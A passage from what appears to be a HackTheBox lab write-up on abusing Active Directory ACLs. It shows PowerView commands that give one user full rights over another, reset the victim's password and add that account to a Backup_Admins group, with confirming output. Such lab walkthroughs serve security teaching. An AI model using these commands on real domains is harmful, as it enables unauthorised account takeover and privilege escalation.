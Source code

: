 ```
ObjectFlags           : None                                                                                                    
InheritanceFlags      : None                                                                                                    
InheritanceType       : None                                                                                                    
AccessControlType     : Allow                                                                                                   
ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130
```

With this information I can abuse the WriteOwner and WriteDacl permissions as follows

```
PS C:\Users\tom> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights all                                  
PS C:\Users\tom> $UserPassword = ConvertTo-SecureString '@Password!23' -AsPlainText -Force                                      
PS C:\Users\tom> Set-DomainUserPassword -Identity claire -AccountPassword $UserPassword                                         
PS C:\Users\tom> $Cred = New-Object System.Management.Automation.PSCredential('HTB\claire', $UserPassword)                      
PS C:\Users\tom> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $Cred
```

Now I can see claire under the Backup\_Admins group

```
PS C:\Users\tom> net user claire /domain                                                                                        
User name                    claire                                                                                             
Full Name                    Claire Danes                                                                                       
Comment                                                                                                                         
User's comment                                                                                                                  
Country/region code          000 (System Default)                                                                               
Account active               Yes                                                                                                
Account expires              Never                                                                                              

Password last set            11/10/2022 5:13:11 PM                                                                              
Password expires             Never                                                                                              
Password changeable          11/11/2022 5:13:11 PM                                                                              
Password required            Yes                                                                                                
User may change password     Yes                                                                                                

Workstations allowed         All                                                                                                
Logon script                                                                                                                    
User profile                                                                                                                    
Home directory                                                                                                                  
```